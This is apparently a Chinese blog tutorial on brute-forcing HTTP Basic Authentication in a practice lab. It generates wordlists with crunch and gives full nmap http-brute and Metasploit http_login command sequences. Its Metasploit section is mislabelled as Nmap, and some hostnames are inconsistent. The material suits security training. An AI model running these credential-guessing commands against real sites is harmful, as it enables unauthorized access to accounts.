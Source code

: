 ```yaml
---
layout:     post
title:      用Nmap或Metasploit绕过HTTP身份验证
subtitle:   
date:       2020-01-28
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - HTTP Basic Authentication
---
```


参考:[Bypass HTTP Basic Authentication with Nmap and Metasploit](https://www.kamranmohsin.com/2017/02/bypass-http-basic-authentication-nmap-metasploit/)

# HTTP身份验证介绍

[HTTP身份验证](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Authentication)是在请求特定web资源时提供用户名和密码的一种方法。<br>
客户端以未加密的base64编码文本的形式发送用户名和密码。

当HTTP接收到对受保护资源的匿名请求时，它可以使用401(拒绝访问)状态码拒绝请求，从而强制使用基本身份验证。

```
HTTP/1.1 401 Access Denied
WWW-Authenticate: Basic realm="Server Results"
Content-Length: 0
```

`WWW-Authenticate` 中的单词 `Basic` 表示用户必须使用Basic身份验证方法来访问受保护的资源。<br>
可以将领域设置为描述特定资源中的安全区域的任何值。

```
GET /protectedfiles/ HTTP/1.1
Host: www.kamranmohsin.com
Authorization: Basic adsadWNoOmY=
```

当成功尝试时，HTTP状态变为 200 OK. `adsadWNoOmY=` 是`basic64`编码版本的用户名和密码。

# 用Nmap绕过HTTP身份验证

绕过可以通过 [Nmap](https://nmap.org/) 来完成. Nmap是一款安全扫描器,它一般用于发现计算机网络上的主机和服务. <br>
Nmap附带了130多个NSE脚本，可以帮助发现网络中几乎所有可能的信息.

想要动手练习,请点击[这里](https://pentesteracademylab.appspot.com/lab/webapp/basicauth). 在链接中提供了绕过身份验证的提示.<br>
对于用户名和密码，在Kali Linux中创建两个单独的文件。我先创建一个目录。<br>
```
mkdir demo
cd demo
vi users.txt
```
将可能的用户名nick, admin写入,users.txt里面保存.当然你也可用网上别人整理好的比如[SecLists](https://github.com/dm116/SecLists).<br>

让我们做一个密码文件，根据提示也就是5个字符，只使用a,s,d小写。密码例子asddd, aassd, ssdaa等。<br>

```
crunch 5 5 asd > pass.txt
```
Crunch命令有助于为蛮力强制进行组合。紧随其后的是5个包含asd的最小或最大字符,结果的组合被保存到pass.txt文件中.

现在使用nmap http-brute命令绕过http基本身份验证,下面是命令:
```
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=pentesteracademy
lab.appspot.com, http-brute.method=POST, http-brute.path=/path/webapp/basicauth, 
userdb=/root/demo/users.txt, passdb=/root/demo/pass.txt' -n -v pentesteracademy
lab.appspot.com
```
我们正在检查端口 `80`，主机名(`http-brute.hostname`)应该是你绕过认证的站点。<br>
`方法`和`路径`应该通过查看登录页面的源页面进行确定。<br>
应该给出`users.txt`和`pass.txt`的完整路径。`-n`表示没有dns, `-v` 表示详细模式,最后要写出网站的名称。<br>

# 用Nmap绕过HTTP身份验证

[Metasploit](https://www.metasploit.com/)有助于发现安全问题，验证漏洞缓解&管理安全评估.<br>

命令如下:<br>
```
msfconsole
```
进入 `msf >` 后<br>
```
search http_login
use auxiliary/scanner/http/http_login
```
进入 `msf5 auxiliary(scanner/http/http_login) >` 后<br>
```
show options
set AUTH_URI /lab/webapp/basicauth
set BLANK_PASSWORDS false
set PASS_FILE /root/demo/pass.txt
set REQUESTTYPE POST
set RHOSTS  pentesteracademylay.appspot.com
set STOP_ON_SUCCESS true
set THREADS 20
set USERNAME admin
set VHOST pentesteracademylay.appspot.com
set USER_FILE ''
set USER_AS_PASS false
set USERPASS_FILE ''
run
```
运行命令后，几分钟内您将获得密码aaddd。<br>
如果在不知道 USERNAME 的情况下需要设置 `USER_FILE`, 上面 `set USER_FILE ''`是设置为空的意思.<br>
